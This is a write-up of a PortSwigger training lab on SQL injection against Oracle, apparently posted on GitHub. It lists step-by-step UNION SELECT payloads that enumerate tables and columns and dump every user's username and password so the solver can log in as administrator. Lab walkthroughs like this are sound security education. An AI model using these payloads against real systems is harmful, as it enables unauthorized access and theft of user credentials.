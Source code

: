 # SQL Injection - Listing the Database contents on Oracle

## 📌 Lab Details
- **Title**: SQL Injection - Retrieving the list of username and password of all users.
- **Difficulty**: Medium
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/de4256d42cc604a2a3f7e792c5fff88df1712f1537cd506ed2537efedbd4c665?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-listing-database-contents-oracle

## 🔍 Summary
This lab demonstrated how SQL Injection can be used to retrieve data from Oracle Databases.

## 🛠 Steps to Solve
1. Determine the number of columns present by injecting `'+UNION+SELECT+'abc','def'+FROM+DUAL--`
2. Injecting `'+UNION+SELECT+table_name,+NULL+FROM+all_tables--` to retrieve the list of tables in the database.
3. Injecting `'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='users_abcdef'--` to retrieve the details of the columns in the table (replacing the table name).
4. Injecting `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--` to retrieve the usernames and passwords of all users (replacing the table and column names).
5. Find the password of administrator to log in.
   
## 📖 Key Takeaways
- Understanding how SQL queries can be manipulated on Oracle Databases.
- Using `UNION` and `SELECT` commands to extract data from tables.
  
## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/01553fe3-f943-4dee-ba8f-c070f6ff3fe2)
![image](https://github.com/user-attachments/assets/95a212c4-ef77-4d24-96b7-4f7807481baa)
![image](https://github.com/user-attachments/assets/32b46bec-0812-4822-ba9f-63cce9412c40)


